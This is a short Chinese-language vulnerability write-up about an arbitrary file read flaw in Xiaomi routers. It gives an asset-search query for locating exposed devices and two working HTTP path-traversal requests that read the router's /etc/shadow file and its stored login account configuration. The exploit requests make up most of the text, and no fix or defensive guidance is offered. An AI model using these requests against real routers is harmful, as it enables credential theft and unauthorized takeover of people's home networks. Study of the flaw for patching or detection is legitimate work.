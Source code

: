 # 小米路由器任意文件读取漏洞

# 一、漏洞简介
小米路由器是一款高配的智能路由器,具备强大的扩展,并且具备高速传输的特点,其传输速度最高可以达到866M,相比普通150M/300M的普通无线路由器具备更高无线传输速率。小米路由器系统任意文件读取漏洞

# 二、影响版本
+ 小米路由器

# 三、资产测绘
```plain
app="小米路由器"
```

![1717231971362-917b53db-2985-4d7c-8a42-118940873a2c.png](./img/Qww4sdoQYgfh-0gQ/1717231971362-917b53db-2985-4d7c-8a42-118940873a2c-622952.png)

# 四、漏洞复现
```plain
GET /api-third-party/download/extdisks../etc/shadow HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept-Encoding: gzip, deflate
```

![1717231994318-8206991d-9a44-4abd-9620-1259bfb61336.png](./img/Qww4sdoQYgfh-0gQ/1717231994318-8206991d-9a44-4abd-9620-1259bfb61336-319945.png)

读取登录密码

```plain
GET /api-third-party/download/extdisks../etc/config/account HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept-Encoding: gzip, deflate
```

![1717233232303-77763c87-be53-47c2-9d2d-07df3e961f46.png](./img/Qww4sdoQYgfh-0gQ/1717233232303-77763c87-be53-47c2-9d2d-07df3e961f46-241369.png)



> 更新: 2024-06-11 10:30:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/slv3fogu0wvlvht3>